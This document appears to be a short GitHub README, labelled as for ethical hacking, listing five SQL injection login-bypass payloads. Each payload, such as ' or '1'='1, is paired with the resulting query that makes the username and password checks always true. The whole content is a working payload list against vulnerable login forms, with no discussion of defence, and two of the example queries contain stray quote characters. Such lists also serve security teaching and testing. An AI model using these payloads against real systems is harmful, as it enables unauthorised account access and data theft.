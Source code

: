## SQL INJECTION | PAYLOAD AND EXAMPLE QUERY

![https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red](https://img.shields.io/badge/ETHICAL%20HACKING-TRUE-red)

> ! Attention, This Repository For Ethical Hacking 

### Bypass SQL Always True

|NO  |PAYLOAD  | EXAMPLE QUERY |
|--|--|--|
| 1 | ```' or '1'='1``` |```SELECT * FROM user WHERE username = '' or '1'='1' AND password = '' or '1'='1';```|
| 1 | ```' or username!=''``` |```SELECT * FROM user WHERE username = '' or username!='' AND password = '' or password!='';```|
| 1 | ```' or FALSE!=TRUE``` |```SELECT * FROM user WHERE username = '' or FALSE!=TRUE AND password = '' or FALSE!=TRUE;```|
| 1 | ```' or TRUE=TRUE``` |```SELECT * FROM user WHERE username = '' or TRUE=TRUE AND password = '' or TRUE=TRUE";```|
| 1 | ```' or 1=1``` |```SELECT * FROM user WHERE username = '' or 1=1 AND password = '' or 1=1" ;```|
